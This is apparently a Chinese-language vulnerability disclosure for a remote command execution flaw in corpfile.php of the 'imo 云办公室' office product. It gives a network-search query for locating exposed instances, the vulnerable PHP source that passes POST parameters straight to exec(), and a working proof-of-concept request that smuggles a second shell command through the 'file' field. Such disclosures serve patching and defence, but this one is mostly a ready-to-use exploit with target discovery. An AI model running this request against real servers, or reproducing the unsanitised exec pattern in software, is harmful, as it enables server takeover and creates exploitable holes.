

# imo 云办公室 corpfile.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 corpfile.php 文件中参数过滤不足，导致可以随意进行命令拼接，获取服务器权限

## 漏洞影响

```
imo 云办公室
```

## 网络测绘

```
app="iMO-云办公室"
```

## 漏洞复现

登录页面


漏洞文件 corpfile.php

```
<?php
define('DELETE_FAILED', '数据不存在，删除失败!');
define('DELETE_SUCCESS', '数据存在，删除成功!');
switch($_POST['type'])
{
  case 'corpLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'userLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('uid' => $_POST['uid'], 'user_account' => $_POST['user_account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'corpTemp':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'chatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'multiChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'groupChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'backChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;
}
```

验证POC

```
POST /corpfile.php

type=corpLogo&command=id&file=;pwd>1.txt
```

